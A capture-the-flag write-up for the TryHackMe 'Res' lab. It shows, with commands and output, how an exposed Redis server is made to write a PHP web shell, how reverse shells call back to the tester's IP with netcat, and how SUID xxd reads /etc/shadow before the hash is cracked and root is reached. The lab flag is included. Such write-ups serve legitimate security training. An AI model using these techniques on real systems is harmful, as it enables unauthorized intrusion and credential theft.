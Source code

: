 # TryHackMe-Res

## NMAP

Run the scan for all ports 
```
Nmap scan report for 10.10.199.149
Host is up (0.17s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7


```

## PORT 6379

I used `https://book.hacktricks.xyz/pentesting/6379-pentesting-redis` to enumerate redis

`nc 10.10.199.149 6379`

Connect to the port using `netcat` and type `info` you'll get output like this

<img src="https://imgur.com/5hbIipH.png"/>

Now we need to use redis-cli client to interact with it more so install using `apt-get install redis-tools`

<img src="https://imgur.com/o4ciScd.png"/>

As you can see after installing the redis-cli we can interact with it 

Lets see if we can create a php page by changing directory to where apache fetches html pages and name the page to `redis.php` 
```
10.10.199.149:6379> config set dir /var/www/html
OK
10.10.199.149:6379> config set dbfilename redis.php
OK
10.10.199.149:6379> set test "<?php phpinfo(); ?>"
OK
10.10.199.149:6379> save
OK

```
<img src="https://imgur.com/Z1bKq16.png"/>

And it works so we can confirm that we can get a shell from this , now set a GET parameter that can inovoke system commands.

```
10.10.199.149:6379> set test "<?php system($_GET['command']); ?>"
OK
10.10.199.149:6379> save
OK
10.10.199.149:6379> 

```

<img src="https://imgur.com/gkUtH6O.png"/>

RCE exists so lets get a shell



`php -r '$sock=fsockopen("10.14.3.143",6666);exec("/bin/sh -i <&3 >&3 2>&3");'` - Didn't worked

`nc -e /bin/sh 10.14.3.143 6666` - Worked !

<img src="https://imgur.com/YVVAZeJ.png"/>

### User Flag
In `/home/vianka` We can find the user flag


### Root Flag

Now for the root flag by looing for `SUID` we see that `xxd` has an suid bit set so it can run as root by anyone

```
www-data@ubuntu:/$ find / -perm /4000 2>/dev/null 
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
www-data@ubuntu:/$ xxd /root/root.txt | xxd -r
thm{xxd_pr1v_escalat1on}
```




### Privilege Escalation 

We got the root flag without even being root but I love to find a way to get root so lets do that.We know that we can read almost anyting with `xxd` so lets try to read `/etc/shadow` and crack the user's hash 

`xxd /etc/shadow | xxd -r`

`vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::`

Run `johntheripper` on this hash

```
root@kali:~/TryHackMe/Easy/Res# john hash                        
Using default input encoding: UTF-8                                       
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes                                                                                              
Will run 4 OpenMP threads                                                                                                                           
Proceeding with single, rules:Single                                                                                                                
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 3 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 9 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 16 needed for performance. 
Warning: Only 11 candidates buffered for the current salt, minimum 16 needed for performance.
Warning: Only 8 candidates buffered for the current salt, minimum 16 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 6 candidates buffered for the current salt, minimum 16 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
beautiful1       (vianka)
1g 0:00:00:04 DONE 2/3 (2020-11-04 01:25) 0.2183g/s 2533p/s 2533c/s 2533C/s maryjane1..cookies1
Use the "--show" option to display all of the cracked passwords reliably

```
Now login with `vinanka`

```
www-data@ubuntu:/$ su vianka
Password: 
vianka@ubuntu:/$ sudo -l
[sudo] password for vianka: 
Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
vianka@ubuntu:/$ sudo bash
root@ubuntu:/# 

```

We are root !
